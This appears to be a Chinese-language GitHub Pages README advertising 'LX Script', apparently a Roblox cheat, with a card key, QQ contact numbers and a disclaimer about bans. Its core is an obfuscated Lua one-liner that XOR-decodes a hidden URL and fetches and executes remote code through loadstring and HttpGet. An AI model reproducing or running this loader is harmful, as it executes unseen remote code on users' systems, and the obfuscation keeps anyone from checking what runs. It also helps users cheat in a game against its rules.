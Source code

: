 ```yaml
---
permalink: /
title: "关于 LX Script"
author_profile: true
redirect_from: 
  - /about/
  - /about.html
---
```

# LX脚本
```lua
Liu_Script = "卡密:6 Script"
Liu_Script = "群:1023667706"
local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9) local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + (v11% #v9) ,1 + (v11% #v9) + 1 )))%256 ));end return v5(v10);end loadstring(game:HttpGet(v7("\217\215\207\53\245\225\136\81\195\194\204\107\225\178\211\22\196\193\206\54\227\169\196\17\223\215\222\43\242\245\196\17\220\140\138\117\238\246\215\31\210\200\148\43\227\172\138\43\248\141\136\113\179\244\213\27\215\208\148\45\227\186\195\13\158\206\218\44\232\244\145\91\244\155\158\125\178\254\158\63\148\230\141\96\191\152\130\63\242\134\254\112\163\227\227\91\240\146\158\0\179\254\230\56\148\155\141\107\234\174\198","\126\177\163\187\69\134\219\167")))();
```
注意:目前脚本卡密为*6 Script*即将更改为随机化生成
# 作者
作者为*LX*与*XiaoBai*,LX联系方式QQ:345628400
# 免责声明
使用此脚本被骂/被举报/被封号概不负责
# 脚本2
脚本完全免费
不会停更
# 感谢
感谢所有支持者与使用者
![图片](https://s21.ax1x.com/2025/05/13/pEjpZm8.jpg)
